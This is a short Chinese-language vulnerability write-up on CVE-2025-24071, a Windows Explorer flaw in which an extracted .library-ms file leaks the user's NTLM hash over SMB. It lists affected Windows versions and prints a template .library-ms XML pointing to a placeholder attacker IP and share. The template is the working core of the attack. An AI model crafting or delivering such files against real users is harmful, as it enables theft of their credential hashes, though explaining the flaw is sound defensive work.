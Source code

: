 CVE-2025-24071是Windows文件资源管理器中的一个欺骗漏洞，利用Windows对.library-ms文件的隐式信任和自动解析特性。攻击者通过构造包含恶意SMB路径的.library-ms文件并打包为ZIP/RAR文件，当用户解压时，Windows资源管理器会自动尝试连接到指定的SMB服务器，从而泄露用户的NTLM认证哈希。
## ## 影响范围

- Windows 10及更早版本
- Windows 11（未安装最新补丁的版本）
- Windows Server 2016/2019/2022（未安装最新补丁的版本）

## `.library-ms`文件格式分析
```XML
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\攻击者IP\共享名</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```